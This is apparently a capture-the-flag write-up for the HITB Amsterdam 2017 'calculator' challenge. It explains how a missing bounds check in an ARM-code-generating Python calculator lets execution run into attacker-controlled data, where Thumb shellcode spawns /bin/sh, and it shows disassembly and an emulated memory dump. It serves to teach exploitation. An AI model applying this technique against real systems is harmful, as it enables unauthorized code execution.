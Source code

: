 # hitb-ams-2017-calculator

Calculator was a pwnable challenge worth 300 points at this year's Hack In The Box Amsterdam CTF. This challenge was actually running on an ARM machine and since I did not have access to an ARM machine, I had to go with another approach.

## The program

The program was a simple calculator program implemented in Python and leveraging **ctypes**.

By reading the code we can see that it was parsing the input to our program, generating a code and data section which were then concatenated and put inside a buffer and the control was redirected here.

When connecting to the remote server, the program was working as expected, however it was crashing on my local machine with a **SIGILL** error.

By looking at the code, we could see that the op codes for the operators defined below were 4 bytes.

```
'+': 0xe0800001
'-': 0xe0400001
'*': 0xe0000091
'|': 0xe1800001
'&': 0xe0000001
```

And every instruction generated was 4 bytes as well. The fact that it was like this and that the program was crashing on my machine which has an Intel processor probably meant that it was targetting an ARM system.

I quickly wrote a disassembler script leveraging the capstone framework to diassemble the values put inside the code section in order to confirm this:

```python
from capstone import *

md = Cs(CS_ARCH_ARM, CS_MODE_ARM)

def print_disass(c):
    for i in md.disasm(c, 0x0):
			print hex(i.address), i.mnemonic, i.op_str

print_disass("\xf8\x0f\x9f\xe5") #first dword
print_disass("\xfc\x1f\x9f\xe5") #load 1
print_disass("\x01\x00\x80\xe0") # +
print_disass("\x01\x00\x40\xe0") # -
print_disass("\x91\x00\x00\xe0") # *
print_disass("\x01\x00\x80\xe1") # |
print_disass("\x01\x00\x00\xe0") # &
print_disass("\x1e\xff\x2f\xe1") # last dword
```

```bash
0x0L ldr r0, [pc, #0xff8]
0x0L ldr r1, [pc, #0xffc]
0x0L add r0, r0, r1
0x0L sub r0, r0, r1
0x0L mul r0, r1, r0
0x0L orr r0, r0, r1
0x0L and r0, r0, r1
0x0L bx lr
```

## Finding the bug

The program works by writing assembly code that does the computation using r0 as the result register and r1 has a staging register to put the next value to be treated.

What is being written to the code section is the following:

* Write `ldr r0, [pc, #0xff8]` to the code section which will load the first value in the data section insde `r0`
* For each operator and value passed, it writes `ldr r1, [pc, #0xffc]` and then the op codes to do the given operation
* Writes `bx lr` at the end of the code section to return and print the result

The data section is where our operands will be put with the following logic:
* Each value must fit in a `DWORD` and it will be written to the data section
* For each value written, the program writes another `DWORD`: `0xffffffff`

As we can see we have very little control over the code section but the data section will be placed right after it where we can control one out of every two `DWORD`. If we can find a bug that tricks the program into running the data section we could achieve arbitrary code execution by writing shellcode the data section

What prevents us from reaching and executing the data section is the `BX LR` instruction put by the program, however the logic of the function that adds a DWORD to the code function is the following:

```python
def code_append(v):
	 global code_bin
	 if len(code_bin) < CODE_SIZE:
			 code_bin += p32(v)
```

and the program fails to validate that enough space will remain to put the `BX LR` instruction at the end of the code section so we can pass an overly long expression and the call to `code_append(0xe12fff1e)` will have no effect

## Getting arbitrary code execution

Great, so now we have a way to reach the data section and execute what is in there. However every two `DWORD` will actually be `0xffffffff` which represents an invalid instruction in ARM.

ARM processors offers two instruction set. The classic one (reffered to as ARM mode) encodes every instruction with 4 bytes, however another instruction set called Thumb encodes every instruction with 2 bytes.

What this means is that we use a Thumb shellcode to execute whatever we want by generating a shellcode that does the following:

* An arbitrary instruction
* A short branch to skip the following DWORD

What is left is to switch instruction set. We can easily do that by making sure the first thing put inside the data section is a `BLX 8` instruction which will skip the next DWORD and switch the processor into Thumb mode.


## Writing the exploit

Here came the tricky part for me. As I did not have access to any ARM machine I was left to write the exploit without being able to really test it locally.

What I ended up doing is leveraging the great Unicorn engine framework to emulate execution of my shellcode.

I won't detail the script here as I don't use any fancy API. I just mimicked what the program would be doing remotely and making sure that I was going to execute a call to `execve("/bin/sh", ["/bin/sh", NULL], NULL)` properly.

When executing `exploit.py` you should get this output:

```bash
0x13371000 : 0xfa000000    0xffffffff    0xe0014678    0xffffffff    
0x13371010 : 0xe00130c4    0xffffffff    0xe0010001    0xffffffff    
0x13371020 : 0xe0012300    0xffffffff    0xe001300c    0xffffffff    
0x13371030 : 0xe0016003    0xffffffff    0xe001380c    0xffffffff    
0x13371040 : 0xe0013108    0xffffffff    0xe0010003    0xffffffff    
0x13371050 : 0xe0011d1b    0xffffffff    0xe001242f    0xffffffff    
0x13371060 : 0xe001701c    0xffffffff    0xe0011c5b    0xffffffff    
0x13371070 : 0xe0012473    0xffffffff    0xe001701c    0xffffffff    
0x13371080 : 0xe0011c5b    0xffffffff    0xe0012468    0xffffffff    
0x13371090 : 0xe001701c    0xffffffff    0xe0011c5b    0xffffffff    
0x133710a0 : 0xe0012400    0xffffffff    0xe001701c    0xffffffff    
0x133710b0 : 0xe0012300    0xffffffff    0xe0012200    0xffffffff    
0x133710c0 : 0xe001270b    0xffffffff    0xe001df01    0xffffffff    
0x133710d0 : 0x6e69622f    0x0068732f    0x133710d0    0x00000000    
0x133710e0 : 0x6e69622f    0xffffffff    0x6e69622f    0xffffffff    
0x133710f0 : 0x00000001    0xffffffff    0x00000001    0xffffffff   
PC: 0x133710ca
R0: 0x133710d0 - /bin/sh
R1: 0x133710d8
R2: 0x0
R3: 0x0
R4: 0x0
R7: 0xb
```

The script then generates the string to send to the program to achieve this memory layout.





